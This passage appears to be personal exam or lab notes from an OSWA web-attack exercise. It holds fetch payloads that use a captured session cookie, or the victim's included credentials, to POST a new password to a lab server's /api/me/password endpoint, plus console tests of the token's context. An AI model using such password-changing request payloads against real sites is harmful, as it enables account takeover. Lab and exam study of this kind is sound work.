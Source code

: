 ```bash
Priority: u=1, i
Connection: keep-alive

password=testtesttest
```
using 
https://curlconverter.com/javascript/ to generate `payload8`
```bash
fetch('https://192.168.62.62:8443/api/me/password', {
  method: 'POST',
  headers: {
    'accept': '*/*',
    'accept-language': 'en-US,en;q=0.9',
    'content-type': 'application/x-www-form-urlencoded;charset=UTF-8',
    'origin': 'http://192.168.62.62',
    'priority': 'u=1, i',
    'referer': 'http://192.168.62.62/',
    'sec-ch-ua': '"Not=A?Brand";v="24", "Chromium";v="140"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-platform': '"Linux"',
    'sec-fetch-dest': 'empty',
    'sec-fetch-mode': 'cors',
    'sec-fetch-site': 'cross-site',
    'sec-fetch-storage-access': 'active',
    'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36',
    'cookie': 'sessionToken=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJsb3Bob3N0cml4IiwiaXNBZG1pbiI6ImZhbHNlIiwiZXhwIjoxNzU4MzIxMjUyLCJ1c2VySWQiOiIyMGY4YjExNy1kMzU0LTQ4MGYtODI3MC1kZWFmMGUwYmI2YmYiLCJ1c2VybmFtZSI6InRlc3QifQ.glYKmvOwHXKRKNWVct9SOfoIiCKzlP3YIbgFdbIYG_s'
  },
  body: new URLSearchParams({
    'password': 'testtesttest'
  })
});
```
methods to test what context the session token is running in by using the console commands:
1.
```bash
fetch("https://192.168.62.62:8443/api/me", {
  credentials: "include"
}).then(r => r.json()).then(console.log);
```
2.
```bash
fetch("https://localhost:8443/api/me", {
  credentials: "include"
}).then(r => r.json()).then(console.log);
```
screenshot testing the 2 methods above 
![[ss-20250919-OSWA-Exam-ShareNotez-pic17.png]]
attempting to bypass prefetch error
```bash
fetch("/api/me/password", {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded"
  },
  body: "password=adminxss",
  credentials: "include"
});
```
not found, need to change to `8443` on `https`
![[ss-20250919-OSWA-Exam-ShareNotez-pic18.png]]